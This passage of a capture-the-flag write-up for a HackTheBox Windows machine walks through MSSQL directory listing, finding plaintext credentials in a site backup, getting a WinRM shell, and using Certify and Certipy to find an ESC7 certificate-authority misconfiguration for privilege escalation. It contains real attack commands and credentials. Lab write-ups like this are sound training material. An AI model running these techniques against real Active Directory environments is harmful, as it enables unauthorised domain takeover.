SQL2019                         1      0   
System Volume Information       1      0   
Users                           1      0   
Windows                         1      0   
```

Simply doing `xp_dirtree` will list out the folders in C: Drive. Now I can explore other folders.
###### `Exploring C:\inetpub\wwwroot using xp_dirtree`
```
SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1   
```

We have a zip file which we can download from the Web. It's a web site source code.

###### `Exploring the Source Code`
```
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
```
I got the credentials for the user `raven` from `.old-conf.xml` file. 

###### `Evil-WinRM Shell for user Raven & User Flag`
```
*Evil-WinRM* PS C:\Users\Raven\Documents> cd C:\Users\Raven\Desktop
*Evil-WinRM* PS C:\Users\Raven\Desktop> type user.txt
e4e57000a3f3e55555967ee9dbdc05d0
*Evil-WinRM* PS C:\Users\Raven\Desktop> whoami
manager\raven
```

###### `AD CS Certificate Enumeration using netexec -M Module_Name`
```
# netexec smb 10.10.11.236 -M enum_ca -u 'guest' -p ''        
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
ENUM_CA     10.10.11.236    445    DC01             Active Directory Certificate Services Found.
ENUM_CA     10.10.11.236    445    DC01             http://10.10.11.236/certsrv/certfnsh.asp
```

### Privilege Escalation

###### `WinPEAS.exe Findings`
```
COMPUTERNAME: DC01
PSModulePath: C:\Users\Raven\Documents\WindowsPowerShell\Modules; C:\Program Files\WindowsPowerShell\Modules; C:\Windows\system32\WindowsPowerShell\v1.0\Modules; C:\Program Files (x86)\Microsoft SQL Server\150\Tools\PowerShell\Modules\
PROCESSOR_ARCHITECTURE: AMD64

######### Enumerating machine and user certificate files
  Issuer             : CN=manager-DC01-CA, DC=manager, DC=htb
  Subject            : CN=manager-DC01-CA, DC=manager, DC=htb
  ValidDate          : 7/27/2023 3:21:05 AM
  ExpiryDate         : 7/27/2122 3:31:04 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : ACE850A2892B1614526F7F2151EE76E752415023

   =================================================================================================

  Issuer             : CN=manager-DC01-CA, DC=manager, DC=htb
  Subject            : CN=dc01.manager.htb
  ValidDate          : 9/8/2024 1:09:53 PM
  ExpiryDate         : 9/8/2025 1:09:53 PM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 5AC7E799E382826DC5D738E5BC6100A9410DA4C3

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
   =================================================================================================

  Issuer             : CN=manager-DC01-CA, DC=manager, DC=htb
  Subject            :
  ValidDate          : 8/30/2024 10:08:51 AM
  ExpiryDate         : 7/27/2122 3:31:04 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 2B6D98B3D379DF6459F6C665D4B753B0FAF6E07A

  Template           : Template=Domain Controller Authentication(1.3.6.1.4.1.311.21.8.14314111.5759319.7095462.1403641.2020894.35.1.28), Major Version Number=110, Minor Version Number=2
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
       Smart Card Logon
   =================================================================================================
```

All Right We have enumerated Certificate Templates with SID(1.3.6.1.4.1.311.21.8.14314111.5759319.7095462.1403641.2020894.35.1.28).

### Active Directory Certificate Service 

I have built [Certify.exe](https://github.com/GhostPack/Certify) earlier when I composed the blog on ADCS. So I will be going to use that certify.exe here to perform further enumeration. I am going to list and perform some of the command on this target.
```
Find all enabled certificate templates:
.\Certify.exe find  # Followed by Require Parameters. RTFM

```

###### `Finding Vulnerable Certificate - Certify`
```
*Evil-WinRM* PS C:\ProgramData> .\Certify.exe find /vulnerable
[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'
[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB
    Cert Start Date               : 7/27/2023 3:21:05 AM
    Cert End Date                 : 7/27/2122 3:31:04 AM
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None

[+] No Vulnerable Certificates Templates found!
```

Look at the last line. Weird!. But let's keep digging. I got the same results when I use `/currentuser` flag. Couple of things I would like to highlight after running just `.\Certif.exe /find` Command.

```
*Evil-WinRM* PS C:\ProgramData> .\Certify.exe find
[*] Listing info about the Enterprise CA 'manager-DC01-CA'
[*] Available Certificates Templates :
================================================================================================================================================
	CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : User
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Users          S-1-5-21-4078382237-1492182817-2568127209-513
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================
    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : EFS
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Encrypting File System
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Users          S-1-5-21-4078382237-1492182817-2568127209-513
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : Administrator
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Microsoft Trust List Signing, Secure Email
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : EFSRecovery
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : File Recovery
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : Machine
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Computers      S-1-5-21-4078382237-1492182817-2568127209-515
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DomainController
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : WebServer
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================
    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : SubCA
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : <null>
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DomainControllerAuthentication
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Client Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DirectoryEmailReplication
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Directory Service Email Replication
    mspki-certificate-application-policy  : Directory Service Email Replication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
================================================================================================================================================

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : KerberosAuthentication
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DOMAIN_DNS, SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
```

I know it is a long long output but couple of things I will break down for my understanding. The output above is the list of Certificate Templates. Checkout the `Template Name` field for each output. Now, all these certificate has few key thing enabled. We will call it `Certificate Parameters` for our understanding. So for example `msPKI-Certificate-Name-Flag`, `mspki-enrollment-flag`, `Authorized Signatures Required` , `pkiextendedkeyusage` and `mspki-certificate-application-policy`. Okay following to that it lists the Permission that each of this certificate has under the `Permission` field. Cool. Now let's keep digging. 

We have following Certificate Template listed in the output above where the `Client Authentication` is enabled for the `Extended Key Usage`, Allow `Domain Admins` rights in the `Permission` section and `Authorized Signature Require` Set to Zero. Those Certificate Templates are `User`, `Administrator`, `Machine`, `DomainController`, `DomainControllerAuthentication` and `KerberosAuthentication`. We might going to abuse one of this certificate template.

###### `ESC7 Attack - ADCS Exploitation`

```
The Certificate Authority (ESC7): "The two main rights here are the ManageCA right and the ManageCertificates right, which translate to the “CA administrator” and “Certificate Manager” (sometimes known as a CA officer) respectively. known as Officer rights)"  https://posts.specterops.io/certified-pre-owned-d95910965cd2
```

Executing `ESC7` ADCS to escalate privileges in the domain require following things.
Our CA should allow Low Privilege User (in our case `Raven`) the `ManageCA` Permission. If we have this permission, than we can add other permission like `ManageCertificates`. Let's check it out.
```
*Evil-WinRM* PS C:\ProgramData> .\Certify.exe find /vulnerable /ca:dc01.manager.htb\manager-DC01-CA 
<<Snipped>>
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119
    Enrollment Agent Restrictions : None
<<Snipped>>
```
Yes We Do.

###### `Trying to perform EnableSAN using Certify.exe and Failed`
```
*Evil-WinRM* PS C:\ProgramData> .\Certify.exe find /vulnerable /ca:dc01.manager.htb\manager-DC01-CA /enablesan /restart
[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'
[*] Restricting to CA name : dc01.manager.htb\manager-DC01-CA

[*] Listing info about the Enterprise CA 'manager-DC01-CA'

    Enterprise CA Name            : manager-DC01-CA
    DNS Hostname                  : dc01.manager.htb
    FullName                      : dc01.manager.htb\manager-DC01-CA
<<Snipped>>
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544
<Snipped>
[+] No Vulnerable Certificates Templates found!
```

Look at `USerSpecifiedSAN` is set to `Disabled`. We are not able to enable the SAN. We will now have to employ alternate techniques.
###### `Using Certipy on Kali to perform Enum`
```
# certipy find -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.10.11.236:636 - ssl
[+] Default path: DC=manager,DC=htb
[+] Configuration path: CN=Configuration,DC=manager,DC=htb
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     MANAGER.HTB\Everyone (MANAGER.HTB-S-1-1-0)
     MANAGER.HTB\Domain Users (S-1-5-21-4078382237-1492182817-2568127209-513)
     MANAGER.HTB\Users (MANAGER.HTB-S-1-5-32-545)
     MANAGER.HTB\Raven (S-1-5-21-4078382237-1492182817-2568127209-1116)
     MANAGER.HTB\Access Control Assistance Operators (MANAGER.HTB-S-1-5-32-580)
     MANAGER.HTB\Domain Computers (S-1-5-21-4078382237-1492182817-2568127209-515)
     MANAGER.HTB\Authenticated Users (MANAGER.HTB-S-1-5-11)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[+] Trying to resolve 'dc01.manager.htb' at '10.10.11.236'
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.10.11.236
[*] Got CA configuration for 'manager-DC01-CA'
[+] Resolved 'dc01.manager.htb' from cache: 10.10.11.236
[+] Connecting to 10.10.11.236:80
[*] Saved BloodHound data to '20240909024522_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240909024522_Certipy.txt'
[*] Saved JSON output to '20240909024522_Certipy.json'
```

Upon looking at the `20240909024522_Certipy.txt` File, We now have something to try out.
```
# cat 20240909024522_Certipy.txt         
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
Cool We got something better. Our target is vulnerable with `ESC7` ADCS Attack. 
###### `Listing Certificate Templates`
```
# certipy ca -ca 'manager-DC01-CA' -u 'raven@dc01.manager.htb' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236  -list-templates
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Enabled certificate templates on 'manager-DC01-CA':
    SubCA
    DirectoryEmailReplication
    DomainControllerAuthentication
    KerberosAuthentication
    EFSRecovery
    EFS
    DomainController
    WebServer
    Machine
    User
    Administrator
```

So we have `SubCA` Certificate template present on our target.

After doing some research and reading the **[original research paper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)**, I found a way to take advantage of ESC7 Attack Vector. Let's take a deep dive from here. 
###### `Some More Details on ESC7`
```
Outside Certificate Template, The Certificate Authority itself has a set of permission that secure various CA actions. This can be enumerated through PSPKI PowerShell Module. This is one of the most critical PATH of ESC7 Attack Vector. The two main rights here are the ManageCA right and the ManageCertificates right, which translate to the “CA administrator” and “Certificate Manager” (sometimes known as a CA officer) respectively.

if we have a principal with ManageCA rights on a certificate authority, we can use PSPKI to remotely flip the EDITF_ATTRIBUTESUBJECTALTNAME2 bit to allow SAN specification in any template.
```

###### `Changind REG Key using reg and impacket-reg - Access Denied`
```
